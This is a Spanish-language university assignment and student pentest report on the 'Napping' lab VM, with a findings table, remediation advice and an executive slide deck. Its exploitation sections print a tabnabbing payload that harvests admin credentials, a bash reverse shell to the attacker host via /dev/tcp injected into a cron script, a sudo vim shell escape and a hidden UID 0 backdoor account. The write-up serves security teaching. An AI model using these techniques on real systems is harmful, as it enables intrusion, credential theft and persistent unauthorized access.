



OBJETIVO GENERAL
Desarrollar un informe técnico profesional de pruebas de penetración (Pentesting Report)
sobre la máquina vulnerable Napping, aplicando una metodología
estructurada de evaluación de seguridad, documentando hallazgos, evidencias técnicas,
análisis de riesgo y propuestas de mitigación, demostrando competencias en análisis
ofensivo y redacción técnica profesional.
OBJETIVOS ESPECÍFICOS
- Aplicar una metodología formal de pentesting (reconocimiento, enumeración, explotación y
post-explotación).
- Identificar, explotar y documentar vulnerabilidades presentes en la máquina objetivo.
- Elaborar un informe técnico profesional con estructura ejecutiva y técnica, incluyendo
evaluación de impacto y recomendaciones de remediación.
Duración aproximada: 06 horas y 30 minutos.
CONTEXTO DE LA MÁQUINA
La máquina Napping simula un entorno corporativo vulnerable orientado a
servicios de almacenamiento/servidor de archivos.
El estudiante actuará como analista Red Team contratado por la
organización para evaluar el nivel de exposición del sistema.
ESTRUCTURA DEL INFORME
- Portada.
- Executive Summary (resumen ejecutivo).
- Alcance (scope).
- Metodología aplicada.
- Fases de reconocimiento.
- Enumeración.
- Explotación.
- Escalada de privilegios.
- Análisis de impacto (modelo CIA).
- Recomendaciones técnicas.
- Completar tabla de hallazgos (ID, Vulnerabilidad, Severidad, Evidencia, Impacto,
Recomendación).
PRESENTACIÓN PROFESIONAL
Después, el estudiante deberá preparar una presentación profesional como
si estuviera frente al Consejo Directivo de una empresa.
Características de la presentación:
- Diseño limpio, corporativo.
- Máximo 12 diapositivas.
- Enfoque estratégico (no técnico profundo).
- Lenguaje ejecutivo.
- Gráficos de riesgo.
- Nivel de impacto en negocio.
Estructura de la presentación:
- Portada corporativa.
- Contexto del Engagement.
- Metodología aplicada.
- Nivel general del riesgo.
- Hallazgos críticos.
- Escenario del impacto empresarial.
- Matriz de riesgo.
- Recomendaciones estratégicas.
- Roadmap de remediación.
- Conclusión ejecutiva.
RÚBRICA DE EVALUACIÓN
| Criterio
|
Ponderación
|
Excelente
|
Bueno |
Regular |
Insuficiente
|
|
01. Metodología aplicada (PTES / OWASP) |
20 pts. |
18-20 pts. -
Aplicación clara, estructurada y coherente de fases. |
14-17 pts. -
Metodología correcta pero con ligera falta de profundidad. |
10-13 pts. -
Fases mencionadas sin integración real. |
0-9 pts. -
Sin estructura. |
|
02. Reconocimiento y Enumeración técnica |
15 pts. |
14-15 pts. -
Escaneos correctamente ejecutados, interpretados y explicados. |
11-13 pts. -
Evidencia técnica adecuada con interpretación aceptable. |
8-10 pts. -
Solo capturas sin análisis profundo. |
0-7 pts. -
Escaneo incompleto o mal interpretado. |
|
03. Calidad en la presentación del informe |
15 pts. |
14-15 pts. -
Informe ejecutivo de alta calidad, formato profesional. |
11-13 pts. -
Presentación adecuada con errores menores. |
8-10 pts. -
Presentación descuidada o poco clara. |
0-7 pts. -
Desordenado, difícil de leer. |
|
04. Explotación documentada |
20 pts. |
18-20 pts. -
Vulnerabilidad explotada con evidencia clara y reproducible. |
14-17 pts. -
Explotación lograda pero con documentación parcial. |
10-13 pts. -
Evidencia mínima o confusa. |
0-9 pts. -
No logra explotación. |
|
05. Presentación Ejecutiva Corporativa |
15 pts. |
14-15 pts. -
Comunicación estratégica, visual profesional. |
11-13 pts. -
Presentación clara pero con diseño mejorable. |
8-10 pts. -
Slides saturadas o lectura textual. |
0-7 pts. -
Presentación improvisada. |
|
06. Pensamiento Crítico y Nivel Analítico |
15 pts. |
14-15 pts. -
Comprensión profunda del vector de ataque. |
11-13 pts. -
Buen análisis con limitaciones menores. |
8-10 pts. -
Análisis superficial. |
0-7 pts. -
Trabajo mecánico. |
REPORTE TÉCNICO DE PENTESTING
Red Team
Report – Napping 101
Contenido
- 2. Resumen Ejecutivo ................................ 3
- 3. Alcance (Scope) ................................. 3
- 4. Metodología aplicada ............................. 3
- 5. Fases de reconocimiento .......................... 4
- 6. Enumeración ...................................... 5
- Exploración de funcionamiento de sistema ............ 9
- 7. Explotación ...................................... 11
- 8. Escalada de privilegios .......................... 16
- 9. Análisis de impacto (modelo CIA) ................. 21
- 10. Recomendaciones técnicas ........................ 22
- 11. Tabla de hallazgos .............................. 23
- Referencias Bibliográficas .......................... 25
2. Resumen Ejecutivo
El presente documento detalla los resultados de una prueba de penetración (pentesting)
realizada sobre la máquina objetivo. El objetivo principal de esta evaluación es
identificar, documentar y analizar posibles vulnerabilidades de seguridad que puedan
comprometer la confidencialidad, integridad o disponibilidad del sistema. Durante la
evaluación inicial, se logró identificar la dirección IP del objetivo y se descubrieron
servicios activos que presentan configuraciones susceptibles a explotación, destacando
vectores de ataque orientados a servicios web.
3. Alcance (Scope)
El alcance de la presente evaluación de seguridad técnica se delimitó de manera estricta
a la máquina virtual denominada "Napping", operando dentro de un
entorno de red local controlado. Los vectores de análisis autorizados se concentraron de
forma exclusiva en la dirección IP objetivo identificada como
192.168.56.103.
Se autorizó la ejecución de técnicas de reconocimiento de red,
escaneo de puertos, enumeración profunda de servicios, análisis de vulnerabilidades en
aplicaciones web y explotación de fallos de configuración. El objetivo se centró
únicamente en comprometer la integridad, confidencialidad y disponibilidad de los
servicios alojados en la IP definida.
4. Metodología aplicada
Para la ejecución de esta auditoría, se implementó una metodología técnica y estructurada
basada en los estándares de la industria para pruebas de penetración (como PTES u
OWASP). El proceso se dividió en fases secuenciales:
- Fase 1 - Reconocimiento: Se utilizaron técnicas de descubrimiento a
nivel de capa de red (ARP) para mapear el segmento local, identificar hosts activos
y aislar la dirección de la máquina objetivo.
- Fase 2 - Enumeración: Se emplearon herramientas de escaneo activo
para perfilar el sistema operativo, identificar puertos lógicos abiertos y
determinar las versiones exactas de los servicios en ejecución (SSH y HTTP).
- Fase 3 - Explotación: Análisis de entradas de usuario no
sanitizadas y funcionalidades críticas para intentar ejecutar código arbitrario,
falsificar peticiones (SSRF) o evadir mecanismos de autenticación.
- Fase 4 - Post-explotación y Escalada de Privilegios: Enumeración
interna del sistema operativo para identificar vectores de escalada, tareas
programadas inseguras o binarios con permisos mal configurados (SUID) que permitan
elevar los privilegios a root.
5. Fases de reconocimiento
Se inició la fase de reconocimiento de red obteniendo privilegios administrativos
mediante el comando sudo su. Posteriormente, se utilizó la herramienta
netdiscover para identificar los hosts activos dentro del segmento de red.
Durante el análisis del tráfico ARP, se descartó la dirección IP 192.168.56.1 al intuir
que correspondía al enrutador. Se determinó que la IP del objetivo es
192.168.56.103.
Como alternativas complementarias, se consideró el uso de:
- Legión: Herramienta semiautomatizada para pruebas de penetración de
redes.
- Spider: Rastreador web rápido escrito en Go para análisis de
sitemap, robots.txt y descubrimiento de enlaces.
6. Enumeración
Una vez confirmada la IP objetivo, se procedió a la fase de enumeración profunda
utilizando la herramienta Nmap con la bandera -A sobre la
dirección 192.168.56.103.
El escaneo reveló los siguientes puertos abiertos y servicios:
- Puerto 22/tcp - Servicio SSH (OpenSSH 8.2p1): Facilita el acceso
remoto cifrado. Su reconocimiento es crítico para intentar recopilar credenciales o
identificar CVEs específicos.
- Puerto 80/tcp - Servicio HTTP (Apache httpd 2.4.41): Vector de
ataque más accesible. Se determinó que la versión de Apache es antigua, lo cual es
fundamental para la búsqueda de exploits conocidos.
Vulnerabilidades Web Identificadas
Ausencia de bandera de seguridad en cookie de sesión
(PHPSESSID): Se observó que la cookie de sesión generada en el portal de
autenticación (login) carece del atributo de seguridad "httponly". Este indicador revela
que el token de sesión no está protegido contra el acceso desde el lado del cliente. En
un escenario de ataque, reconocer esta mala configuración es vital porque viabiliza el
secuestro de sesiones (Session Hijacking) si se logra inyectar código malicioso a través
de una vulnerabilidad de Cross-Site Scripting (XSS).
Huella del sistema operativo (Linux 4.15 – 5.19) y
Dirección MAC: Se logró extraer la dirección MAC y perfilar el sistema
subyacente, estimando un rango de versión del kernel de Linux. La técnica de perfilado
del sistema operativo (OS fingerprinting) es indispensable para la planificación del
ataque, ya que permite al auditor descartar cargas útiles (payloads) incompatibles y
enfocar la investigación en vulnerabilidades de escalada de privilegios locales (LPE)
que afecten exclusivamente a la arquitectura y versión del kernel descubiertas.

Portal de autenticación identificado en la IP objetivo
Avistamiento de directorios
Para el avistamiento de directorios, se ejecutó inicialmente la herramienta
Nikto, la cual logró encontrar únicamente el archivo
config.php.
Para ampliar el descubrimiento, se utilizó DirBuster configurado para
buscar archivos con extensiones html, txt y php.
Este proceso resultó en la identificación de rutas adicionales críticas, incluyendo
register.php, index.php y welcome.php. El
descubrimiento de estos recursos es un paso obligado para mapear la superficie de ataque
real; los archivos de configuración (config.php) son objetivos de alto
valor porque frecuentemente exponen credenciales de bases de datos embebidas en el
código, mientras que los formularios ocultos (register.php) revelan nuevas
funcionalidades con las que se puede interactuar para probar técnicas de inyección,
evasión de autenticación o manipulación de parámetros.
Exploración de funcionamiento de sistema
Finalmente, se interactuó con la aplicación web registrando un usuario de prueba en
register.php utilizando la contraseña "123456".
Tras autenticarse exitosamente en index.php, la aplicación redirigió al
archivo welcome.php, el cual presenta una interfaz de "promoción de blogs
gratuitos" que solicita al usuario ingresar un enlace web para ser revisado por un
administrador.
7. Explotación
Durante esta fase, se procedió a explotar el formulario de envío de enlaces ubicado en
welcome.php. Se identificó que la aplicación era susceptible a un ataque de
Tabnabbing (o Tab Hijacking), una técnica que
aprovecha el comportamiento de las pestañas del navegador y el objeto
window.opener para redirigir una pestaña en segundo plano hacia un sitio
malicioso.
Se verificó la dirección IP local de la máquina atacante
(192.168.56.101) mediante el comando ifconfig y se creó un
directorio de trabajo denominado Napping.
Creación del Payload
Se elaboró un archivo malicioso en formato HTML (payload.html) diseñado para
ejecutar código JavaScript. El script utiliza la instrucción
window.opener.parent.location.replace('http://192.168.56.101:8000/home.html');
para forzar a la pestaña padre (la sesión del administrador) a redirigirse hacia un
servidor controlado por el atacante.
Alojamiento del Payload
Se levantó un servidor web local utilizando el módulo de Python http.server
en el puerto 80 para servir el archivo payload.html.
Ejecución del ataque
Se envió la URL del payload (http://192.168.56.101/payload.html) a través
del formulario de la aplicación web víctima, el cual está diseñado para que un
administrador revise los enlaces. Paralelamente, se configuró un
listener con Netcat en el puerto 8000 (nc -lvnp 8000) para
interceptar la respuesta.
Obtención de credenciales
Tras la interacción del administrador simulado con el enlace, el script redirigió su
sesión, capturando una petición POST en el puerto 8000. Dicha petición contenía las
credenciales en texto plano correspondientes al usuario daniel con la
contraseña C@ughtm3napping123.
Acceso inicial
Utilizando las credenciales obtenidas, se estableció una conexión SSH exitosa hacia la
máquina objetivo (192.168.56.103), logrando el compromiso inicial del
sistema con los privilegios del usuario daniel.
8. Escalada de privilegios
La fase de post-explotación y escalada se dividió en dos etapas: un movimiento lateral
hacia un usuario con mayores privilegios y la posterior escalada vertical a
administrador del sistema (root).
Movimiento Lateral (Usuario adrian)
Enumeración local: Al explorar los directorios de los usuarios del
sistema, se identificaron los archivos query.py y
site_status.txt dentro del directorio /home/adrian.
Análisis de tareas programadas: Se determinó que query.py
es un script ejecutado de manera periódica y automatizada (mediante un cron
job) bajo el contexto del usuario adrian, cuyo propósito original era
verificar el estado de un sitio web local.
Modificación del script
Se constató que el grupo administrators, al cual pertenece el usuario
daniel, poseía permisos de escritura sobre query.py. Se procedió a editar
el archivo para importar la librería os e inyectar el comando
os.system('/usr/bin/bash /dev/shm/connection.sh').
Despliegue de Reverse Shell
Se creó el archivo ejecutable /dev/shm/connection.sh en la memoria
compartida del sistema. En este archivo se configuró una reverse shell en Bash
utilizando la sintaxis:
bash -c 'bash -i >& /dev/tcp/192.168.56.101/8000 0>&1'
Ejecución y estabilización
Tras configurar un listener en el puerto 8000, se recibió una conexión exitosa obteniendo
una sesión interactiva como el usuario adrian. Posteriormente, se
estabilizó la consola (TTY) empleando el intérprete de Python (pty.spawn):
python3 -c 'import pty;pty.spawn("/bin/bash")'- Ctrl + Z (suspender proceso).
stty raw -echo; fg (configurar terminal local).export TERM=xterm
Escalada Vertical (Usuario root) y Persistencia
Abuso de Sudoers: Al ejecutar el comando
sudo -l para verificar los privilegios delegados al usuario adrian, se
descubrió la capacidad de ejecutar el editor /usr/bin/vim como root sin
necesidad de proveer una contraseña (NOPASSWD).
Ejecución de Bypass: Basándose en técnicas documentadas (como
GTFOBins), se explotó esta mala configuración ejecutando el comando
sudo /usr/bin/vim -c ':!/bin/sh'. Esto permitió escapar del entorno
restringido del editor y generar una consola interactiva con privilegios máximos
(root).
Mantenimiento de acceso: Para asegurar la persistencia en el sistema, se
añadió un usuario oculto con identificadores administrativos (UID 0 y GID 0) denominado
Equipo4 (con contraseña: 123456@), validando su
creación en el archivo /etc/passwd.
9. Análisis de impacto (modelo CIA)
El compromiso sistemático de la infraestructura objetivo, que culminó en la obtención de
privilegios máximos (root), representa un riesgo crítico para las operaciones de la
organización. A continuación, se detalla el impacto estructurado bajo los tres pilares
fundamentales de la seguridad de la información:
- Confidencialidad (Nivel de impacto: Crítico): La escalada de
privilegios a administrador otorgó acceso irrestricto a la totalidad del sistema de
archivos. Se comprobó que un atacante puede leer información sensible de cualquier
usuario, incluyendo credenciales de bases de datos codificadas en texto plano dentro
de scripts internos (como se evidenció en el archivo
del_users.py que
contenía el usuario "adrian" y su contraseña de base de datos). Esto expone datos
corporativos, propiedad intelectual y registros de usuarios a la exfiltración y el
espionaje.
- Integridad (Nivel de impacto: Crítico):
Se demostró la capacidad de alterar el funcionamiento lógico de los procesos
internos del servidor. Al contar con permisos de escritura sobre el script
automatizado
query.py, fue posible inyectar código arbitrario para
alterar el comportamiento esperado del sistema. A nivel de superusuario, un actor
malicioso tiene la capacidad de modificar registros de auditoría (logs) para borrar
sus huellas, alterar el código fuente de la aplicación web alojada o manipular la
información de la base de datos.
- Disponibilidad (Nivel de impacto:
Crítico): El control absoluto sobre la máquina virtual Napping faculta
a un atacante para interrumpir por completo los servicios operativos. Se observó que
el sistema posee scripts (como
del_users.py) con la instrucción
TRUNCATE TABLE users, lo que implica que un atacante podría
destruir bases de datos enteras de manera instantánea. Además, el acceso root
permite la ejecución de ataques de denegación de servicio (DoS) locales, el apagado
del servidor o el despliegue de ransomware para secuestrar la infraestructura.
10. Recomendaciones técnicas
Para mitigar los riesgos identificados y fortalecer la postura de seguridad del servidor,
se propone la implementación inmediata de los siguientes controles técnicos y
administrativos:
- Mitigación de vulnerabilidades web (Tabnabbing): Se debe sanitizar
el manejo de enlaces externos implementando los atributos
rel="noopener noreferrer" en todas las etiquetas HTML de anclaje
(<a>) que utilicen el atributo target="_blank". Esta
medida técnica neutralizará el acceso de las páginas abiertas al objeto
window.opener.
- Restricción de permisos y control de
acceso: Se recomienda auditar recursivamente los permisos de los
directorios de usuario utilizando los comandos
chown y
chmod. Los scripts invocados por tareas programadas deben tener
permisos estrictos configurados en 755 o 700, garantizando que
únicamente el propietario legítimo tenga la capacidad de modificarlos.
- Endurecimiento de políticas de Sudoers
(Hardening): Se debe remover inmediatamente la directiva
NOPASSWD para el binario
/usr/bin/vim en el archivo
sudoers. Cualquier ejecución de herramientas interactivas con
privilegios elevados debe ser estrictamente justificada, monitoreada y requerir
siempre credenciales de autenticación vigentes.
11. Tabla de hallazgos
| ID |
Vulnerabilidad Identificada |
Severidad
|
Evidencia
Técnica |
Impacto en
el Negocio |
Recomendación de Remediación |
|
VULN-01 |
Tabnabbing / Tab Hijacking (Manipulación de referencias
cruzadas) |
Alta |
Redirección
exitosa de la sesión del administrador hacia un portal falsificado mediante
un payload HTML. Captura de credenciales del usuario daniel en texto plano.
|
Robo de
credenciales corporativas mediante phishing avanzado, permitiendo el acceso
inicial no autorizado a la red interna. |
Implementar
estrictamente los atributos rel="noopener noreferrer" en todos
los hipervínculos externos. |
|
VULN-02 |
Configuración insegura de permisos (Escalada de Privilegios
Local - Horizontal) |
Alta |
El archivo
query.py presentaba permisos de escritura (-rw-rw-r--) para el grupo
administrators. Se inyectó una reverse shell ejecutada por el cron de
adrian. |
Compromiso
de cuentas de usuarios adyacentes y ejecución de código arbitrario bajo
contextos ajenos. Falla en el aislamiento de entornos. |
Auditar el
sistema de archivos local y aplicar el principio de mínimo privilegio.
Restringir escritura de scripts automatizados. |
|
VULN-03 |
Configuración de directivas inseguras en sudoers (Escalada
de Privilegios a Root) |
Crítica |
Verificación
del privilegio (root) NOPASSWD: /usr/bin/vim. Escape exitoso hacia una
terminal interactiva invocando sudo /usr/bin/vim -c ':!/bin/sh'. |
Pérdida
total de la confidencialidad, integridad y disponibilidad del servidor. El
atacante obtiene control absoluto de la infraestructura. |
Suprimir la
directiva NOPASSWD para herramientas interactivas que soporten el escape a
shell. Restringir uso de sudo a comandos estrictamente necesarios. |
|
VULN-04 |
Almacenamiento inseguro de credenciales de BD en texto
plano |
Media |
Archivo
del_users.py localizado bajo el usuario root, el cual contiene las
credenciales (user="adrian", password="P@sswr0d456") integradas en el código
fuente. |
Exposición
de credenciales de bases de datos internas que pueden ser reutilizadas para
realizar movimientos laterales o acceder a datos directamente. |
Utilizar
variables de entorno seguras o bóvedas de contraseñas (Key Vaults) para la
gestión de secretos. Evitar hardcodear credenciales. |
Referencias
Bibliográficas
- GTFOBins. (s.f.). GTFOBins: Bypass local security restrictions. Recuperado de
https://gtfobins.github.io/
- López Contreras, S. (2026). Descubrimiento y Explotación de
Vulnerabilidades: Lab Napping [Material de clase]. Ingeniería en Tecnologías de
la Información, Universidad Politécnica de San Luis Potosí.
- OWASP Foundation. (s.f.). OWASP Web Security Testing Guide
(WSTG). Recuperado de https://owasp.org/
- PentestMonkey. (s.f.). Reverse Shell Cheat Sheet.
Recuperado de https://pentestmonkey.net/
- The Penetration Testing Execution Standard (PTES). (s.f.).
PTES Technical Guidelines. Recuperado de http://www.pentest-standard.org/
PRESENTACIÓN EJECUTIVA
Red Team
Report – Napping 1.0.1
CONTEXTO DEL ENGAGEMENT
01
Evaluación de "Napping 1.0.1"
02
Identificar vulnerabilidades explotables con
impacto real
03
Alcance: VirtualBox - Red Host Only
04
Perfil: Atacante Externo sin credenciales
METODOLOGÍA APLICADA (OWASP & PTES)
1
Reconocimiento: Legion, Spider
2
Enumeración: Nmap (Puertos 22/tcp, 80/tcp)
3
Vectores: PHPSESSID, OS Fingerprint, Tabnabbing
4
Explotación: Malicious Payload, Admin Credentials Leaking
5
Escalada: Cron poisoning, Query.py & vim poisoning
6
Validación: Creación de cuenta local Equipo4
EVALUACIÓN GENERAL
NIVEL
ALTO
RESUMEN:
- Servicios
expuestos
- Acceso inicial
logrado
- Escalada a
root obtenida
IMPACTO:
- Compromiso total del sistema
- Acceso a información sensible
- Potencial movimiento lateral

EVIDENCIA_REF: SSH_ACCESS_DANIEL
HALLAZGOS CRÍTICOS
H1:
Servicios Expuestos
SSH, HTTP, Cron, Query.py, vim.
Superficie de ataque amplia y posibilidad de explotación remota.
H2:
Aplicación Web Vulnerable
Falta de validación, rutas sensibles
expuestas y manejo inseguro de entradas. Punto de entrada inicial.
EVIDENCIA_REF: WEB_VULN_PORTAL
HALLAZGOS CRÍTICOS (II)
H3:
Gestión Insegura de Credenciales
Presencia de credenciales débiles y
exposición en archivos del sistema. Riesgo de escalada horizontal.
H4:
Escalada de Privilegios
Permisos incorrectos y ejecución de
binarios elevados (root). Control total del sistema comprometido.

EVIDENCIA_REF: ROOT_COMPROMISE
ESCENARIO DE IMPACTO EMPRESARIAL
Cadena de
Ataque:
- Identificación de servicios (HTTP/SSH)
- Interacción con Web vulnerable
- Obtención de acceso inicial
- Uso de credenciales encontradas
- Escalada a privilegios root
Consecuencias:
-
Exfiltración de datos sensibles
-
Interrupción de servicios críticos
-
Compromiso de otros sistemas
- Daño
reputacional y regulatorio
MATRIZ DE RIESGO
| Vulnerabilidad |
Probabilidad |
Impacto |
Nivel |
| Servicios expuestos |
Alta |
Media |
Medio |
| Aplicación web vulnerable |
Alta |
Alta |
Alta |
| Credenciales inseguras |
Alta |
Alta |
Alta |
| Escalada de privilegios |
Media |
Alta |
Alta |
RECOMENDACIONES ESTRATÉGICAS
Reducir superficie de ataque
Validación robusta en apps web
Fortalecer políticas de contraseñas
Aplicar principio de mínimo privilegio
Segmentar servicios críticos
Implementar monitoreo y alertamiento
ROADMAP DE REMEDIACIÓN
Corto Plazo (0-30 d)
- Cierre de servicios no esenciales
- Cambio de credenciales
- Corrección de vulnerabilidades web
Mediano Plazo (1-3 m)
- Hardening del sistema
- Implementación de controles de acceso
- Auditoría de permisos
Largo Plazo (3-6 m)
- Programa continuo de pruebas
- Implementación de SIEM
- Capacitación en seguridad
CONCLUSIÓN FINAL
El sistema evaluado presenta una
combinación crítica de:
- Exposición innecesaria de servicios
- Debilidades en la aplicación web
- Configuraciones inseguras
ESTO PERMITIÓ A UN ATACANTE EXTERNO COMPROMETER COMPLETAMENTE EL SISTEMA.
Mensaje clave:
La organización
debe priorizar la reducción de la superficie de ataque y fortalecer sus
controles de acceso.
Recomendación
final:
Adoptar un enfoque proactivo de
ciberseguridad basado en prevención, detección y respuesta continua.